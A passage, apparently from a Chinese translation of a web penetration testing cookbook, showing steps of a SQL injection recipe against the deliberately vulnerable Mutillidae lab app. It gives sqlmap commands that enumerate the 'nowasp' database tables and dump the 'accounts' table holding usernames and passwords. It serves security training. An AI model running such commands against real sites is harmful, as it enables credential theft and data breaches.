     ![](img/6-8-2.jpg)
    
8.  如果我们打开获得用户名和密码，类似于我们在上一个秘籍那样，我们需要知道含有这些信息的表名称。在终端中执行下列代码：

    ```
    sqlmap -u "http://192.168.56.102/mutillidae/index.php?page=userinfo.php&username=test&password=test&user-info-php-submitbutton=View+Account+Details" -p username -D nowasp --tables
    ```
    
    ![](img/6-8-3.jpg)
    
    SQLMap 会保存所执行的注入日志，所以第二次攻击会花费更少的时间。你可以看到，我们指定了要提取信息（nowasp）的数据库，并告诉 SQLMap 我们想获取这个数据库的表名称列表。
    
9.  `accounts`表使含有我们想要的信息的表之一。让我们转储内容：

    ```
    sqlmap -u "http://192.168.56.102/mutillidae/index.php?page=userinfo.php&username=test&password=test&user-info-php-submitbutton=View+Account+Details" -p username -D nowasp -T accounts --dump
    ```
    
